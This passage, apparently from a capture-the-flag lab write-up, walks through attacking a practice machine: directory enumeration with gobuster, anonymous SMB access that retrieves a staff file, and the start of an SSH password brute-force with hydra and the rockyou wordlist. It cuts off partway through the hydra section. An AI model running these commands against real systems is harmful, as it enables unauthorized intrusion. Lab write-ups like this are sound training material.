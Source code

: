 We notice we have a port open for `http` on 80. We can use `gobuster` to enumerate that:
```shell
gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .php,.txt -o gobuster/medium.log
```

`-t` how many tasks running concurrently

`-u` url/target

`-w` path to wordlist

`-x` extentions to include (eg. robots.txt)

`-o` output file

We quickly find `/development` which contains two text files `j.txt` and `dev.txt`

---

### Finding Vunerabilities

`j.txt` reveals that `J` has weak credentials - something we can most likely exploit, however, we do not have a username we can use yet.

`dev.txt` confirms our `nmap` scan finding an `smb` server open. We can access that using:

```
smbclient.py $IP
Impacket v0.9.24.dev1+20210625.150349.2eff99fc - Copyright 2021 SecureAuth Corporation

Type help for list of commands
# shares
Anonymous
IPC$
# use Anonymous
# ls
drw-rw-rw-          0  Thu Apr 19 21:31:20 2018 .
drw-rw-rw-          0  Thu Apr 19 21:13:06 2018 ..
-rw-rw-rw-        173  Thu Apr 19 21:29:55 2018 staff.txt
# get staff.txt
# exit
```

Checking the contents of staff.txt, we notice that we have a username for both parties - time to fire up `hydra` and brute-force our way in.

---

### Brute force in

We can use `hydra` to brute-force logins.

```shell
hydra -t 64 -l [REDACTED] -P ~/wordlists/rockyou.txt ssh://$IP
```

`-t` as before, how many tasks running concurrently
